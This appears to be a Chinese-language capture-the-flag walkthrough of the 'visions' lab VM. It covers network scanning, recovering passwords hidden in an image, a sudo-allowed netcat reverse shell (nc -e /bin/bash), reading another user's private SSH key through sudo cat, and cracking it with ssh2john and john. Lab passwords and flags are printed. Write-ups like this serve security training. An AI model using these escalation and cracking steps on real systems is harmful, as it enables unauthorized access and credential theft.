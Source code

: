 |   |   |   |
|---|---|---|
|visions|easy|图片隐写、图片调试、exiftool使用、sudo-nc提权、ssh私钥提权、ssh2john使用、john爆破私钥、ssh 私钥利用|
# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.136/24
```
# 服务扫描
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.136 
```
# 目录扫描

右键检查查看源码，猜测是用户名alicia
```C
 http://192.168.44.136/index.html
 
Only those that can see the invisible can do the imposible.
You have to be able to see what doesnt exist.
Only those that can see the invisible being able to see whats not there.
-alicia 

翻译

只有那些能看到无形事物的人才能做到不可能的事情。
你必须能够看到不存在的东西。
只有那些能够看到不可见事物的人才能看到不存在的事物。
-艾丽西亚
```

页面只有个white.png空白图片，猜测是图片隐写
保存下来
查看信息
```C
exiftool white.png
strings white.png

得到： pw:ihaveadream
```
# 提权



```C
┌──(kali㉿kali)-[~/下载]
└─$ ssh alicia@192.168.44.136 //ihaveadream

sudo -l //  (emma) NOPASSWD: /usr/bin/nc
sudo -u emma /usr/bin/nc -e /bin/bash 192.168.44.136 2333
```

新建一个控制台ssh连接，nc监听
```C
nc -lvnp 2333

python3 -c 'import pty;pty.spawn("/bin/bash")'

emma@visions:~$ cat note.txt
cat note.txt
I cant help myself.
emma@visions:/home$ ls
ls
alicia  emma  isabella  sophia
emma@visions:/home$ cd sophia
cd sophia
emma@visions:/home/sophia$ ls
ls
flag.sh  user.txt
emma@visions:/home/sophia$ cat user.txt
cat user.txt
cat: user.txt: Permission denied

```
可以看到home目录下还有好多其他用户，这里脑洞较为大，还得回到那张图片white.png
把它复制到windows的world里，图片格式-->矫正-->图片矫正选项-->对比度-56%，就能看到账户密码

>sophia/seemstobeimpossible

获得第一个flag
```C
emma@visions:/home/sophia$ su sophia
su sophia
Password: seemstobeimpossible

sophia@visions:~$ cat user.txt
cat user.txt
hmvicanseeforever

```

读取到ssh私钥
```c
sudo -l ///usr/bin/cat /home/isabella/.invisible
sudo /usr/bin/cat /home/isabella/.invisible
```

将私钥复制出来编辑到id_rsa，这登录还需要密码，我们使用 **ssh2john** 将 **id_isa** 秘钥信息 转换 为 **john** 可以识别的hash，然后进行爆破
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ vim id_rsa
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh2john id_rsa >> hash  
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

